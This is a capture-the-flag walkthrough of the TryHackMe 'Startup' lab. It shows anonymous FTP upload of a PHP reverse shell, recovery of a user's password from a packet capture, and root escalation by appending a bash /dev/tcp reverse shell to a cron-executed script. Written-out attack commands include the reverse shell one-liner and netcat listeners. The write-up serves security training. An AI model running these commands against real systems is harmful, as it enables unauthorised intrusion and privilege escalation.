# **TryHackMe: Startup – Room Walkthrough**

This room covers exploiting an anonymous FTP server with write permissions to achieve Remote Code Execution (RCE), analyzing a leaked packet capture (`.pcapng`) file to recover user credentials, and exploiting a writable script dependency inside a root-owned cronjob to escalate to root.

## **1. Scanning & Enumeration**

I started by running an aggressive `nmap` scan to map out the active services on the target system.

```
nmap -sV -A -vv 10.48.138.251
```

**Open Ports:**

- **Port 21/tcp:** vsftpd 3.0.3 (Allows Anonymous Login)
- **Port 22/tcp:** OpenSSH 7.2p2
- **Port 80/tcp:** Apache httpd 2.4.18

Next, I ran a `gobuster` directory scan against port 80 to search for hidden endpoints:

```
gobuster dir -u http://10.48.138.251 -w /usr/share/wordlists/dirb/common.txt -t 20
```

The scan revealed a `/files` directory. When I visited `http://10.48.138.251/files/`, it showed an index page hosting a few files, including `notice.txt` and an image called `important.jpg`. I investigated these for hints and checked the image for hidden steganography data, but both turned out to be rabbit holes.



## **2. Exploiting FTP for Initial Access**

Since Nmap confirmed that anonymous login was allowed on port 21, I logged into the FTP server:

```
ftp 10.48.138.251
# Name: Anonymous
# Password: <Press Enter>
```

Running `ls -la` inside the FTP root showed that the files mapped exactly to what I saw on the web server's `/files` endpoint. Crucially, I noticed that a subfolder named `ftp/` had global write permissions (`drwxrwxrwx`):

```
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
```



Because the Apache web directory maps directly to this FTP directory structure, I could achieve Remote Code Execution by uploading a web shell.

I generated a standard **Pentestmonkey PHP reverse shell**, set it to my VPN IP and port `4444`, navigated into the `ftp` folder, and uploaded it using the `put` command:

```
ftp> cd ftp
ftp> put shell.php
```



I set up a netcat listener on my terminal handler to catch the shell:

```
nc -lvnp 4444
```

Then, I executed the uploaded script by triggering it through my browser:

`http://10.48.138.251/files/ftp/shell.php`



The shell connected instantly, giving me a foothold as the `www-data` user. Right in the root directory `/`, I found a file named `recipe.txt`. Reading it gave me the secret spicy soup ingredient for the first flag.





## **3. Traffic Analysis & Pivoting to lennie**

While exploring the system layout, I found an unusual folder at the root path named `/incidents/`. Inside, there was a packet capture file named `suspicious.pcapng` owned by `www-data`.



I transferred this capture file back to my attacker machine and opened it up using **Wireshark**. While analyzing the raw network streams, I intercepted a sequence where a user attempted to log in. Looking through the plain-text strings, I uncovered the password for the local user account **lennie**.



Back on my reverse shell, I used the credentials to switch my user context:

```
su lennie
# Enter the recovered password
```

I navigated to `/home/lennie/` and cleanly read out `user.txt` to claim the second flag.



## **4. Privilege Escalation to Root**

Inside `lennie`'s home folder, I found a directory called `scripts/` containing two main components:

- `startup_list.txt`
- `planner.sh`

I checked the contents of `planner.sh`:

```
cat planner.sh
```

The script was configured to run automatically as a root cronjob task. While I didn't have permission to write directly to `planner.sh`, I noticed it called a secondary external script located at `/etc/print.sh`:

```
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

I checked the access controls on that secondary script:

```
ls -la /etc/print.sh
```

The permissions revealed that user `lennie` was the explicit owner and had full write access (`-rwx------`) to `/etc/print.sh`.



Since `planner.sh` runs as root and blindly calls `/etc/print.sh`, any code I appended to `print.sh` would execute with full root authorities.

I appended a bash reverse shell string pointing to my attacker IP over port `5555` directly into `/etc/print.sh`:

```
echo "bash -c 'exec bash -i &>/dev/tcp/192.168.145.196/5555 <&1'" >> /etc/print.sh
```



I set up my terminal listener using `rlwrap` to catch a clean, interactive shell:

```
rlwrap -r nc -lvnp 5555
```

Within a minute, the cronjob executed the scheduled loop, triggering my payload as the root user. The reverse shell connected back to my listener:

```
uid=0(root) gid=0(root) groups=0(root),1002(robot)
```

I navigated smoothly over to the administrator's path and read out the final operational flag:

```
cat /root/root.txt
```



Room completely solved!

